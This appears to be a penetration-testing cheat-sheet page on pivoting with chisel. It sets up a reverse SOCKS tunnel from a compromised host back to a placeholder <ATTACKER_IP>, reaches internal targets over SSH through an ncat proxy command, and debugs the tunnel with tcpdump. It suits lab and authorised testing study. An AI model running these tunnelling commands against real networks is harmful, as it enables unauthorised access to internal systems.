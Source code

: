 ```
+------------------------------------------------------------------------------------+
|    +<<<<<<<+              WAN | DMZ           DMZ | INT                            |
|    V       ^                  |        +---???    |                                |
|    V       ^     < < < < <    |        |          |                                |
|    V   ATTACKER-------------MID01------+------SECRET01-------------FINAL01         |
|    V       ^       (http)     |        |          |                                |
|    V       ^                  |        +---???    |                                |
|    +>>>>>>>+                  |                   |                                |
+------------------------------------------------------------------------------------+
```

Same use case as above, but for dynamic connection capability.

This will set up a port forward such that
- *FROM* ATTACKER we can connect
- *TO* SECRET01 *OR* ??? on <u>any dynamic</u> \<RPORT\>
- *VIA* HTTP tunnel between client ATTACKER listening on \<LPORT\> connecting to server also ATTACKER on \<HTTPPORT\> which will then forward to \<RPORT\> on SECRET01/???/???/...

COMMANDS

On attacker machine, set up a server in a directory (NOTE might need to use apache2 - see remote SSH tunnelling):

```
link@kali:~$ sudo cp $(which chisel) /path/to/server/directory
link@kali:~$ chisel server --port <LPORT> --reverse
```

Download the same `chisel` binary to the target machine and run the client:

```
target@hacked:~$ chisel client <ATTACKER_IP>:<LPORT> R:socks > /dev/null 2>&1 &
```

Then proxy traffic through proxychains (see SSH remote tunnelling for info). The default SOCKS proxy \<HTTPPORT\> is `1080`.

So for a shell, we can use the "ProxyCommand" option from OpenSSH:

```
link@kali:~$ ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:<HTTPPORT> %h %p' <USER>@<TARGET>
```

- `<TARGET>` is the ultimate end goal machine to compromise
- `%h` = SSH command host IP
- `%p` = SSH command port

### Debugging

Sometimes, it doesn't work. Let's use Tcpdump to see tf goin on:
```
link@kali:~$ sudo tcpdump -nvvvXi <NETWORK_INTERFACE> tcp port <LPORT>
```

Inspect the output when attempting to establish tunnel.
